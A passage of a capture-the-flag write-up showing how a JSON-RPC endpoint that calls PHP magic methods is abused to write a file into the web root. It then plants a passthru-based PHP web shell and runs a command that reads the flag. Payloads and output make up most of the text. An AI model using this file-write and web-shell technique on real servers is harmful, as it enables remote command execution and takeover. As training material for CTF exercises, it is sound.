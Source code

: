 Ok, so we sent a request like

```lang-bash line-numbers 
rpc_json_call={ "jsonrpc": "2.0","method": "__construct", "params": {"log_dir":"/var/www/kk.log", "debug":true, "state":"test"} }
```

We were expecting that we could write in **/var/www/kk.log** but nothing appeared there.

Fortunately we realized that we could send several commands so we tried:

```lang-bash line-numbers 
rpc_json_call=[
 { "jsonrpc": "2.0","method": "__construct", "params": {"log_dir":"/var/www/kk.log", "debug":true, "state":"test"} },
 { "jsonrpc": "2.0","method": "__wakeup", "params": {} }
]
```

And voila, we got a beautiful "**...loged**" response so we checked the "kk.log" file and it was there:

```lang-bash line-numbers 
1391967947  O:3:"rpc":1:{s:5:"state";s:4:"test";}
```

It seems like a serialized string but more interetingly, our test string was there, so next step is try to inject a web shell:

```lang-bash line-numbers 
rpc_json_call=[
 { "jsonrpc": "2.0","method": "__construct", "params": {"log_dir":"/var/www/kk.php", "debug":true, "state":"<? echo file_get_contents('index.php');?>"} },
 { "jsonrpc": "2.0","method": "__wakeup", "params": {} }
]
```

And there we go a beautiful shell. All we have to do is:

```lang-bash line-numbers 
rpc_json_call=[
 { "jsonrpc": "2.0","method": "__construct", "params": {"log_dir":"/var/www/kk.php", "debug":true, "state":"<? passthru($_GET['cmd']);?>"} },
 { "jsonrpc": "2.0","method": "__wakeup", "params": {} }
]
```

And then:

```lang-bash line-numbers 
http://109.233.61.11:8880/kk.php?cmd=cat%20/FLAG
```

And flag:

```lang-bash line-numbers 
1391968178 O:3:"rpc":1:{s:5:"state";s:28:"CTF{b15ffee30a117f418d1cede6faa57778} ";}
```




